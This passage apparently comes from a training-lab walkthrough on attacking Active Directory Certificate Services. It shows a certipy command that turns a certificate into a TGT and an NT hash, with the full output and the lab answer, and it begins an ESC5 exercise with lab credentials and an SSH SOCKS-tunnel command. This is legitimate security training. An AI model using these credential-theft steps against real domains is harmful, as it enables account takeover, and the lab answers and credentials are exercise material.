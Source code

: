 At last, utilizing the certificate, students need to use the `auth` command of `certipy` to request a TGT for `Josy` and `Un-PAC-the-hash` within it; students will attain the NT hash `f0982e00d07f1329412df06ba5f6b67e`:

Code: shell

```shell
certipy auth -pfx josy.pfx -domain lab.local
```

```shell-session
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-dcsgrv7yfv]─[~]
└──╼ [★]$ certipy auth -pfx josy.pfx -domain lab.local

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: josy@lab.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'josy.ccache'
[*] Trying to retrieve NT hash for 'josy'
[*] Got hash for 'josy@lab.local': aad3b435b51404eeaad3b435b51404ee:f0982e00d07f1329412df06ba5f6b67e
```

Answer: `f0982e00d07f1329412df06ba5f6b67e`

## ESC5

### Question 1

#### "Using the credentials cken:Superman001, abuse the ESC5 misconfiguration to compromise the DC. What is the value of the flag file at C:\ESC5\flag.txt?"

After spawning the target machine, students first need to establish dynamic port forwarding to access the target's internal network; it is important to set the `-oStrictHostKeyChecking` option to `accept-new`, which allows SSH to automatically add new host keys to the user's known hosts files:

Code: shell

```shell
sshpass -p 'HTB_@cademy_stdnt!' ssh -N -f -D 127.0.0.1:9050 htb-student@STMIP -oStrictHostKeyChecking=accept-new
```

```shell-session
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-6eyilg2fh9]─[~]
└──╼ [★]$ sshpass -p 'HTB_@cademy_stdnt!' ssh -N -f -D 127.0.0.1:9050 htb-student@10.129.205.205 -oStrictHostKeyChecking=accept-new

Warning: Permanently added '10.129.205.205' (ECDSA) to the list of known hosts.
```

Additionally, students need to comment out `proxy_dns` in `/etc/proxychains.conf`:
